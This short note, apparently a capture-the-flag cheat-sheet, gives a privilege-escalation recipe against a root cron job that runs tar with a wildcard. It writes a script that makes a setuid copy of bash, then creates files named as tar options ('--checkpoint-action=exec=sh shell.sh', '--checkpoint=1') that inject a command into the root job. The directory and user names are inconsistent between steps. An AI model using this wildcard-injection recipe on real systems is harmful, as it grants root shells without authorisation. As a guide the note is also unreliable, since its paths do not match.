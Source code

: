 
When there is a ROOT CRON job with tar compiling with a wild card
```
cd /opt/home
tar cf /home/milesdyson/backups/backup.tgz *
```
- Go to the location of the  compression happens(/opt/home)

```bash
echo 'cp /bin/bash /home/cassie/bash; chmod +xs /home/cassie/bash' > /opt/admin/shell.sh
```

```bash
echo "" > "--checkpoint-action=exec=sh shell.sh"
```

```bash
echo "" > --checkpoint=1
```

